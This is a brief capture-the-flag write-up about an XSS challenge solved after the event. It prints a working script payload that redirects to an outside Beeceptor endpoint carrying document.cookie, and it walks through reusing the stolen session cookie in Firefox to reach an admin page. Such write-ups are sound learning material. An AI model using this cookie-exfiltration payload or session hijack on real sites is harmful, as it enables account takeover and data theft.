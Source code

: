On this challenge i did some cheating<br />
I have come across some other xss challenges like last years google ctf. I know how xss works but most of the time I just test if i can get the xss to work with a simple
alert("hi"). In the writeups before I have seen people set up severs to connect to trough the xss

As I could not do these challenges during the accual CTF time and did them in the week/weekend after I could just lookup the flag and check if my xss would have been correct.<br />
I was lucky though. The writeup i read started of by setting up a mock api at:<br />
https://beeceptor.com

Awesome! I had not seen the used xss or the flag so I could try it out myself and see if i can get something to come into my mock api.<br />
So i tested my xss:<br />
<script>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie</script>

and yes i get the incomming flag on the beeceptor page! awesome no need to set up a whole server to listen to connections :D

I tried putting the session cookie i also recieved in the cookies of my firefox browser and go to the admin page: <br />
open dev tools of firefox, <br />
go to the storage tab <br />
click the + to add a cookie <br />
change the name to session <br />
and the value to the gotten session cookie HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV 

This page shows the same flag as i already got from the cookie field so seems like there is no second flag in this challenge.


